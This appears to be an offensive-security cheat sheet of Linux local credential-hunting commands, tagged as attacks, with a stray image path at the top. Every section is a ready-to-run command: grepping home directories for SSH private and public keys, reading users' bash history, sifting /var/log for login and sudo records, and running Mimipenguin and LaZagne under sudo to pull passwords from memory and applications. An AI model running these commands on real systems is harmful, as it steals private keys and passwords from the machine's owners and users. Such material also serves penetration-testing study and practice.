 ## password attacks - local - linux credential hunting ssh private keys
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

## password attacks - local - linux credential hunting ssh public keys
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

## password attacks - local - linux credential hunting history
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
tail -n5 /home/*/.bash*
```

## password attacks - local - linux credential hunting logs
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## password attacks - local - linux credential hunting memory Mimipenguin python
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
sudo python3 mimipenguin.py
```

## password attacks - local - linux credential hunting memory Mimipenguin bash
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
sudo bash mimipenguin.sh
```

## password attacks - local - linux credential hunting lazagne
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
sudo python2.7 laZagne.py all
```
